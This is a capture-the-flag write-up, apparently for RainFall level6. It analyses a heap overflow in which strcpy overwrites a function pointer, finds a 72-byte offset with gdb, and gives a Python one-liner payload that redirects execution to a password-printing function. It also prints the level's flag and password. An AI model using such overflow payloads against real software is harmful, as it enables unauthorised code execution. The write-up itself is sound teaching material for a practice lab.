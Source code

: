 # Level6

## Analysis

**In `main()`:**

```c
// Malloc of a String of length 64
str = (char *)malloc(0x40); // 64
// And just afterward, a malloc for a pointer to function
fct = (void **)malloc(0x4);

// pointer to function `m()` assigned
fct = &m;
// Unprotected `strcpy`
strcpy(str, av[1]);

// Call to the pointer to function which by default is `m()`
fct();
```

**In `m()`:**

Nothing interesting

**In `n()`:**

System call to print the `.pass`

___

## Exploit

If we change the pointer to function from `m()` adress -> `n()` adress using the `strcpy()`,
That'll do it

First lets determine the Offset :
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level6/level6 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Program received signal SIGSEGV, Segmentation fault.
0x53535353 in ?? ()

 ❯ python3 offset.py 53
72
```

What's the adress to `n()` ?
```
(gdb) info function
All defined functions:
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

So the solution is:
 * (72) Offset of 72 characters
 * (04) Adress of `n()`

```
level6@RainFall:~$ ./level6 $(python -c 'print "\x90" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

___

*Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*